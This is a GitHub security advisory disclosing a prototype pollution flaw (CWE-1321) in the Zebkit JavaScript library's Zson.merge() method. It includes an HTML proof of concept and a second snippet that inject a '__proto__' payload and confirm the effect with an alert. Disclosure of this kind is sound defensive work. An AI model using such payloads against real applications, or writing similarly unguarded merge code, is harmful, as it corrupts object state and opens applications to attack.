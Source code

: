```yaml
---
title: Zebkit Prototype Pollution
severity: Moderate
ghsa_id: GHSA-j829-m9p4-q72f
cve_id: null
weaknesses:
- id: CWE-1321
  name: Improperly Controlled Modification of Object Prototype Attributes ('Prototype
    Pollution')
products:
- ecosystem: JavaScript
  package_name: Zebkit
  affected_versions: <= Git commit 4e51c13571230bce13b96de88338143f20996dbd
  patched_versions: ''
cvss: null
credits:
- github_user_id: rwhogg
  name: Bob "Wombat" Hogg
  avatar: https://avatars.githubusercontent.com/u/2373856?s=40&v=4
---
```


### Summary
Zebkit is vulnerable to prototype pollution when merging objects using the Zson.merge() method. This can allow insertion of arbitrary properties into the prototype chain of objects.

### Severity
Moderate - arbitrary properties can be inserted into the JavaScript prototype chain, whether or not a merge has been explicitly requested.

### Proof of Concept
```html
<!-- index.html –>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <script type="text/javascript" src="http://zebkit.org/ver/latest/zebkit.min.js"></script>
</head>
<body>
<script>
document.addEventListener("DOMContentLoaded", function() {
    var zson = new zebkit.Zson()
    var badObj = JSON.parse('{"__proto__": {"prototype_is": "polluted"}}')
    zson.merge({}, badObj)
    alert("Prototype is " + "any object".prototype_is)
})
</script>
</body>
</html>
```
The above HTML file can be viewed directly in the browser or can be served with any web server. An alert saying “Prototype is polluted'' should pop up. This indicates that we successfully added a property to an object (in this case, the string “any object”) that was not apparently involved in the merge.

### Further Analysis
As merge() is called in the normal flow of Zson usage, it is not necessary for the developer to explicitly call it themselves in order for the vulnerability to be exploited. For example, this code does not explicitly call merge() but will have the same effect:

```js
var badObj = JSON.parse('{"__proto__": {"myprototype": "polluted"}}')
var zs2 = new zebkit.Zson({"a": "a"})
zs2.then(badObj, function(zson) {
    	alert("Alternate method: " + ({}).myprototype)
})
```


### Timeline
**Date reported**: 7/20/2022
**Date fixed**: 
**Date disclosed**: 10/18/2022